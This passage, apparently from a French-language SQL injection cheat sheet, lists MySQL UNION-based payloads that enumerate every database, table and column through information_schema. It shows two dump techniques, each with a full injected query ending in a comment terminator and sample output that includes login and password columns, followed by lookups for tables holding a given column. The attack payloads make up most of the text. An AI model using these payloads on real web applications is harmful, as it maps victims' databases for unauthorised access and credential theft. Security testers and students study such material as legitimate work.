 SELECT (@) FROM (SELECT(@:=0x00),(SELECT (@) FROM (information_schema.columns) WHERE (table_schema>=@) AND (@)IN (@:=CONCAT(@,0x0a,' [ ',table_schema,' ] >',table_name,' > ',column_name))))x

**Exemples :**

SELECT * FROM Table WHERE data = '-1' UNION SELECT 1, 2, (SELECT (@) FROM (SELECT(@:=0x00),(SELECT (@) FROM (information_schema.columns) WHERE (table_schema>=@) AND (@)IN (@:=CONCAT(@,0x0a,' [ ',table_schema,' ] >',table_name,' > ',column_name))))x), 4--+';

**Résultats :**
[ information_schema ] >CHARACTER_SETS > CHARACTER_SET_NAME
[ information_schema ] >CHARACTER_SETS > DEFAULT_COLLATE_NAME
[ information_schema ] >CHARACTER_SETS > DESCRIPTION
[ information_schema ] >CHARACTER_SETS > MAXLEN
[ information_schema ] >COLLATIONS > COLLATION_NAME
[ information_schema ] >COLLATIONS > CHARACTER_SET_NAME
[ information_schema ] >COLLATIONS > ID
[ information_schema ] >COLLATIONS > IS_DEFAULT
[ information_schema ] >COLLATIONS > IS_COMPILED
**Remarques :**

- Le résultat est sous la forme d’un fichier BLOB s’il est conséquent.

#### Technique n°2

SELECT MID(GROUP_CONCAT(0x3c62723e, 0x5461626c653a20, table_name, 0x3c62723e, 0x436f6c756d6e3a20, column_name ORDER BY (SELECT version FROM information_schema.tables) SEPARATOR 0x3c62723e),1,1024) FROM information_schema.columns

**Exemples :**

SELECT column FROM Table WHERE data = '-1' UNION SELECT MID(GROUP_CONCAT(0x3c62723e, 0x5461626c653a20, table_name, 0x3c62723e, 0x436f6c756d6e3a20, column_name ORDER BY (SELECT version FROM information_schema.tables) SEPARATOR 0x3c62723e),1,1024) FROM information_schema.columns--+';

Résultats :
Table: myTable1
Column: login
Table: myTable1
Column: userid
Table: myTable1
Column: password
Table: myTable2
Column: data
**Remarques :**

- Le formatage de sortie est en HTML, avec des retours à la ligne pour un meilleur affichage.

### Trouver des tables à partir d’une colonne

SELECT table_name FROM information_schema.columns WHERE column_name = 'myColumn';

SELECT table_name FROM information_schema.columns WHERE column_name LIKE '%Col%';

### Trouver des colonnes à partir d’une table

